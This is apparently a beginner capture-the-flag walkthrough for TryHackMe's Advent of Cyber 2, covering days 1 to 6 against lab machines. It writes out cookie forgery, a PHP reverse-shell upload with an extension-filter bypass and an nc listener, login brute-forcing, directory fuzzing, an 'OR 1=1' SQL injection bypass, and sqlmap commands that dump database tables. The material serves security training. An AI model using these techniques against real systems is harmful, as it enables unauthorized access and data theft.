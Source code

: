 # [Advent of Cyber 2 [2020]](https://tryhackme.com/room/adventofcyber2)

> Get started with Cyber Security in 25 Days - Learn the basics by doing a new, beginner friendly security challenge every day leading up to Christmas.

## Day 1: A Christmas Crisis

go to the webpage, you will see a chrismas control centre

![image](https://user-images.githubusercontent.com/90561566/214785295-fef573af-99a6-427b-bfeb-3294d50cbd9c.png)

register one acc and login, check the cookie

![image](https://user-images.githubusercontent.com/90561566/214785594-933afb60-44e0-49b3-b0c9-35e3ebd6a0a0.png)

decode with cyberchef from hex, we got a json format

![image](https://user-images.githubusercontent.com/90561566/214786429-06a30488-1bfb-46c8-ab81-eca3e35eb084.png)

reencode with username santa

![image](https://user-images.githubusercontent.com/90561566/214787080-9509aab6-67b5-42f1-b649-1b2d50616203.png)

edit the cookie and reload, yah, we got santa's access

![image](https://user-images.githubusercontent.com/90561566/214787254-09f86564-f5ec-4f4a-87d2-b7d1b88fa802.png)

enable all to get flag

![image](https://user-images.githubusercontent.com/90561566/214787424-f1c9e1f9-4a72-4fc3-922a-7116f8c5b4e6.png)

Answer

![image](https://user-images.githubusercontent.com/90561566/214787519-bcc0aab0-9b28-4f56-b45a-63ae0fb411d3.png)

## Day 2: The Elf Strikes Back!

go to the webpage

![image](https://user-images.githubusercontent.com/90561566/215031356-e657878f-4a91-4294-8055-ad0e7e9b816f.png)

provide our id numder `?id=ODIzODI5MTNiYmYw`

![image](https://user-images.githubusercontent.com/90561566/215031951-b6ec3e33-3bfa-4aed-8a19-cbcf65666fef.png)

check source code

![image](https://user-images.githubusercontent.com/90561566/215032120-2d596691-109e-4fa5-87cd-55d2f2861bf9.png)

prepare our shell

```
cp /usr/share/webshells/php/php-reverse-shell.php shell.php
vi shell.php
```

change extension to bypass filter

```
mv shell.php shell.jpg.php
```

![image](https://user-images.githubusercontent.com/90561566/215034419-4b5bb5a3-883b-4cce-bda5-d79194b52c65.png)

go to /uploads, we can see a list of uploaded files here

![image](https://user-images.githubusercontent.com/90561566/215034581-8bcb5625-d934-4df0-88f7-901e8ce8afc8.png)

```
nc -vlnp 4444
```

![image](https://user-images.githubusercontent.com/90561566/215034758-8c9d5b51-49d6-43ef-86df-10752d0ee7ba.png)

```
cat /var/www/flag.txt
```

Answer

![image](https://user-images.githubusercontent.com/90561566/215035035-957dfc91-edc1-471d-9d8a-37b7711f9382.png)

## Day 3: Christmas Chaos

go to the webpage

![image](https://user-images.githubusercontent.com/90561566/215256268-28311024-39f1-4fd6-b9f6-f5c86ca99c9e.png)

catch request login and send to intruder

![image](https://user-images.githubusercontent.com/90561566/215256346-6f66563e-619c-48a0-8833-2b0a7dc23220.png)

set auto positions and attack type is cluster bomd, then go to Payload tab

![image](https://user-images.githubusercontent.com/90561566/215256470-661c823d-9513-4425-9ad5-5893e9cbf5bc.png)

add 3 each, total is 9, start attack

![image](https://user-images.githubusercontent.com/90561566/215256538-4fe503e4-c21f-4270-9b2f-36982d4b6e72.png)

all status is 302, but you can filter by length, it's one return with 255 value

login and here we go, our flag

![image](https://user-images.githubusercontent.com/90561566/215256651-61b5a009-da0c-41ec-b75c-b371372409ac.png)

Answer

![image](https://user-images.githubusercontent.com/90561566/215256681-c7f6353a-c319-4040-a63a-a13b65c41cc0.png)

## Day 4: Santa's watching

view the webpage

![image](https://user-images.githubusercontent.com/90561566/215312098-a4632e49-5224-4118-b5e6-7cff6ddb43f4.png)

```
gobuster dir -w /usr/share/wordlists/dirb/big.txt -u http://10.10.134.163
```

you will found the /api directory

![image](https://user-images.githubusercontent.com/90561566/215312405-123a2d07-da4e-4159-a41c-687ca750e3b4.png)

i found a site-log.php on /api

![image](https://user-images.githubusercontent.com/90561566/215312595-123c04b0-8e44-4b3d-a0ce-0825eb908351.png)

download the provided wordlists

```
wget https://assets.tryhackme.com/additional/cmn-aoc2020/day-4/wordlist -o wordlist.txt
```

```
wfuzz -c -z file,wordlist.txt http://10.10.134.163/api/site-log.php?date=FUZZ
curl http://10.10.134.163/api/site-log.php?date=20201125
```

Answer

![image](https://user-images.githubusercontent.com/90561566/215312928-50c93887-8f5d-4af6-9908-66078b1f2d0d.png)

## Day 5: Someone stole Santa's gift list!

scan the target

```
nmap -sS -sV -T4 10.10.81.14
```

![image](https://user-images.githubusercontent.com/90561566/215713821-073d7927-9469-4cdd-88ec-272a99001b95.png)

there are a training web at port 3000 and our challenge at port 8000 and MySQL version 8.0.22

![image](https://user-images.githubusercontent.com/90561566/215713972-3ab5fe11-bee3-4a42-854e-c6f28cc36a64.png)

view the website at port 8000

![image](https://user-images.githubusercontent.com/90561566/215714939-29a2ef79-d0f4-45e5-a046-a50f48090c94.png)

i found santa's panel at /santapanel

![image](https://user-images.githubusercontent.com/90561566/215715675-e08be8f4-0a1f-45b1-ace3-4f351f516112.png)

bypass the login by basic sqli

```
admin' OR 1=1--
```

after login as santa

![image](https://user-images.githubusercontent.com/90561566/215716058-d0dbc960-9c43-48bd-844c-648783e84022.png)

catch a search request with burpsuite and save to search.txt

```
sqlmap -r search.txt --tamper=space2comment --dbms sqlite
```

![image](https://user-images.githubusercontent.com/90561566/215719302-094db17c-710b-4047-bfab-d5dad7719217.png)

```
sqlmap -r search.txt --tamper=space2comment --dbms sqlite --count
```

there are 3 tables

![image](https://user-images.githubusercontent.com/90561566/215719719-b69bd70d-b772-464c-beed-3f9b2951fc14.png)

```
sqlmap -r search.txt --tamper=space2comment --dbms sqlite -D gift -T sequels --dump
```

dump sequels table

![image](https://user-images.githubusercontent.com/90561566/215719968-229214a7-2d06-484f-af7f-682e5dd0200b.png)

```
sqlmap -r search.txt --tamper=space2comment --dbms sqlite -D gift -T hidden_table --dump
```

dump hidden_table table

![image](https://user-images.githubusercontent.com/90561566/215720305-8df1fab2-7875-4d3f-b4a3-d2de8810c197.png)

```
sqlmap -r search.txt --tamper=space2comment --dbms sqlite -D gift -T users --dump
```

dump users table

![image](https://user-images.githubusercontent.com/90561566/215720658-79367815-78db-4588-ad49-eaf49612d0ba.png)

Answer

![image](https://user-images.githubusercontent.com/90561566/215720797-5a9e3226-a299-4ea4-8d76-e9c15b2ad2b2.png)

## Day 6: Be careful with what you wish on a Christmas night

view the webpage at port 5000

![image](https://user-images.githubusercontent.com/90561566/216258882-a6379ea8-93a1-487a-ba50-e1443cd5903b.png)

try post a comment

![image](https://user-images.githubusercontent.com/90561566/216260805-f334cae7-da79-4d59-b40c-bbcbed425056.png)

Because you can post comments that allow you to save a script and have it execute everytime the page is loaded this is Store XSS

open owasp zap

![image](https://user-images.githubusercontent.com/90561566/216259658-9b892f21-4f1a-41f8-8296-29d7979db1e1.png)

run a automatic scan

![image](https://user-images.githubusercontent.com/90561566/216260362-bed62e49-af40-4d9f-a022-1970a40925b1.png)

Answer

![image](https://user-images.githubusercontent.com/90561566/216261088-8dd9db6c-9cb8-4391-8fce-ab6a6b76db82.png)

## Day 7: The Grinch Really Did Steal Christmas














